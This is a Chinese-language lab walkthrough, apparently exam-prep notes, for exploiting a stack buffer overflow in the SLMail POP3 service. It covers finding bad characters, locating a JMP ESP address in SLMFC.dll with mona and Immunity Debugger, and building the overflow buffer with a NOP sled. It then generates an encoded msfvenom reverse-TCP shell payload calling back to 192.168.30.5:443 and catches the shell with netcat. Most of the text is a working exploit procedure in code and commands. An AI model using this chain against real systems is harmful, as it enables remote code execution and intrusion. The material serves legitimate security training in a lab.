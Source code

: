 ```
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A" * 2606 + "B" * 4 + badchars
```
python slmail-pop3.py, follow esp in dump
找出其中一个bad char之后,修改badchars变量,继续测试:     重启slmail服务和debugger,  python slmail-pop3.py, follow esp in dump  重复上述步骤,直到找出所有的bad chars


下载mona, https://github.com/corelan/mona  将mona.py拖放到"PyCommands"文件夹中(在Immunity Debugger应用程序文件夹中)。在c:\python27中安装Python 2.7.14(或更高版本的2.7.xx),从而覆盖与Immunity捆绑在一起的版本。尝试更新mona时需要这样做以避免TLS问题。确保正确安装32位版本的python。
!mona modules   查看所有的模块
其中Rebase表示重启后是否会改变地址,False即不改变;SafeSEH、ASLR、NXCompat这三项都是Windows相关的安全机制;OS Dll表示是否是OS自带的库；即前四列选False,最后一列选True
切换到上方的m模块,继续筛选出有执行权限的dll
依次对满足上述条件的dll查找是否存在所需指令(切换到e界面,双击进入):
右击-Search for-command-jmp esp
右击-Search for-Sequence of commands-push esp retn
下方显示没有任何内容(通常情况下会有)
调用msf中的模块,找该命令对应的十六进制数:
```
msf-nasm_shell
nasm > jmp esp
00000000 FFE4                       jmp esp
```
对每个找到的dll执行:    !mona find -s "\xff\xe4" -m xxx.dll
确定对应的模块:  C:\windows\system32\SLMFC.dll
点上方的e,会显示所有被slmail.exe加载的dll文件,找到SLMFC.dll后,双击,加载成功后,上方标题栏会变成[thread xxxxx,module SLMFC]
上方切换到k模块,在下方输入:     !mona find -s "\xff\xe4" -m slmfc.dll
在找到的结果中,筛选没有bad char的项
点击上方最右边蓝色的向右箭头-输入内存地址-跳到内存地址后-右击-copy to clipnoard-address(5F4A358F)
修改py脚本:     buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * (3500-2606-4)
重启slmail服务和debugger,跳到(5F4A358F)内存处,F2设置断点
python slmail-pop3.py,可以观察到此时程序停在了(5F4A358F)处,右击follow esp in dump,查看栈中的数据
F7单步调试,进入jmp esp中,观察到程序执行的代码段,全是C


重启slmail服务和debugger,使用msfvenom生成shell code payload:
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d"(找到的bad char) -e x86/shikata_ga_nai
会得到一串shell code: unsigned char buf[] = "xxxx..."
修改py脚本
```
shellcode = ("xxx...")

# \x90指的是nop,这里填写16个字节是为了容错,防止ESP寄存器起始的字节丢失而造成shellcode不能正常执行的情况

buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "\x90" * 16 + shellcode + "C" * (3500-2606-4-351-16)
```
在jmp esp的内存地址处F2设置断点,python slmail-pop3.py,在断点处F7进行单步调试,把第八个nop处的值修改成int3(函数中断),然后F7继续执行,到循环处,观察内存中的shell code解码,在CLD处F2添加断点,观察全部解码后的内存空间
在kail机进行侦听:   nc -lvp 443     可以看到有回弹shell连接过来     exit
